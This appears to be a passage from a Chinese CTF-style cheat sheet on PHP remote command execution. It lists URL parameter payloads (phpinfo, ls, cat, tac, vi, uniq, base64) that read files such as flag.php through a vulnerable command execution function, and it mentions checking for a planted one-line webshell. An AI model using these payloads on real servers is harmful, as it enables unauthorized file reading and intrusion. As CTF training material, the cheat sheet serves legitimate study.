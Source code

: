 
# 二. 常用命令

以下命令应当在命令执行函数中执行

## 2.0 phpinfo()测试命令执行

`phpinfo()` 命令广泛用于测试是否存在 RCE 漏洞，例如检验是否成功写入一句话木马，同时可观察到 `disable_functions` 项，帮助后续漏洞利用

```c
?c=phpinfo();
```

## 2.1 ls命令目录读取

```c
?c=ls;
```

## 2.2 cat命令文件读取

`cat` 命令读取文件内容，但结果不会显示在页面上（需要查看页面源代码）

```c
?c=cat flag.php
?c=/bin/cat flag.php
```

## 2.3 tac命令文件读取

```c
?c=tac flag.php
```

## 2.4 vi命令文件读取

```c
?c=vi flag.php
```

## 2.5 uniq命令文件读取

`uniq`函数的作用是删除文件重复行并输出剩余内容，可以用于文件读取。与`cat`一样，结果在源代码

```c
?c=uniq flag.php
```

## 2.6 base64命令读取文件

`base64` 命令可将文件内容进行编码后输出

```c
?c=base64 flag.php
?c=/bin/base64 flag.php
```
